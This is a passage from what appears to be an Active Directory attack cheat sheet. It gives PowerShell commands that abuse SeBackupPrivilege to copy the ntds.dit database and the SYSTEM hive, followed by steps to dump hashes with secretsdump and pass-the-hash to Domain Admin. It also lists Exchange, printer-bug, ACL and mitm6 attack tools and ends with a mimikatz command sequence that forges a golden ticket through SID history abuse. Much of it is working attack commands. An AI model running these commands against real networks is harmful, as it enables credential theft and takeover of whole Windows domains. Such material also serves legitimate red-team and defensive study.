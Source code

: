 ```
Set-SeBackupPrivilege
  
#Use the functionality of the dlls to copy the ntds.dit database file from the shadow copy to a location of our choice
Copy-FileSeBackupPrivilege w:\windows\NTDS\ntds.dit c:\<PathToSave>\ntds.dit -Overwrite
  
#Dump the SYSTEM hive
reg save HKLM\SYSTEM c:\temp\system.hive 
```
3) Using smbclient.py from impacket or some other tool we copy ntds.dit and the SYSTEM hive on our local machine.
4) Use secretsdump.py from impacket and dump the hashes.
5) Use psexec or another tool of your choice to PTH and get Domain Admin access.
### Abusing Exchange
- [Abusing Exchange one Api call from DA](https://dirkjanm.io/abusing-exchange-one-api-call-away-from-domain-admin/)
- [CVE-2020-0688](https://www.zerodayinitiative.com/blog/2020/2/24/cve-2020-0688-remote-code-execution-on-microsoft-exchange-server-through-fixed-cryptographic-keys)
- [PrivExchange](https://github.com/dirkjanm/PrivExchange) Exchange your privileges for Domain Admin privs by abusing Exchange
### Weaponizing Printer Bug
- [Printer Server Bug to Domain Administrator](https://www.dionach.com/blog/printer-server-bug-to-domain-administrator/)
- [NetNTLMtoSilverTicket](https://github.com/NotMedic/NetNTLMtoSilverTicket)
### Abusing ACLs
- [Escalating privileges with ACLs in Active Directory](https://blog.fox-it.com/2018/04/26/escalating-privileges-with-acls-in-active-directory/)
- [aclpwn.py](https://github.com/fox-it/aclpwn.py)
- [Invoke-ACLPwn](https://github.com/fox-it/Invoke-ACLPwn)
### Abusing IPv6 with mitm6
- [Compromising IPv4 networks via IPv6](https://blog.fox-it.com/2018/01/11/mitm6-compromising-ipv4-networks-via-ipv6/)
- [mitm6](https://github.com/fox-it/mitm6)
### SID History Abuse
*WUT IS DIS?: If we manage to compromise a child domain of a forest and [SID filtering](https://www.itprotoday.com/windows-8/sid-filtering) isn't enabled (most of the times is not), we can abuse it to privilege escalate to Domain Administrator of the root domain of the forest. This is possible because of the [SID History](https://www.itprotoday.com/windows-8/sid-history) field on a kerberos TGT ticket, that defines the "extra" security groups and privileges.*

Exploitation example:
```
#Get the SID of the Root Domain using PowerView
Get-DomainSID -Domain root.domain.local

#Create the Enteprise Admins SID
Format: S-1-5-21-RootDomainSID-519

#Forge "Extra" Golden Ticket using mimikatz
kerberos::golden /user:Administrator /domain:root.domain.local /sid:<CurrentDomainSID> /krbtgt:<krbtgtHash> /sids:<EnterpriseAdminsSID> /startoffset:0 /endin:600 /renewmax:10080 /ticket:\path\to\ticket\golden.kirbi

#Inject the ticket into memory
kerberos::ptt \path\to\ticket\golden.kirbi

#List the DC of the Root Domain
dir \\dc.root.domain.local\C$

#Or DCsync and dump the hashes using mimikatz
```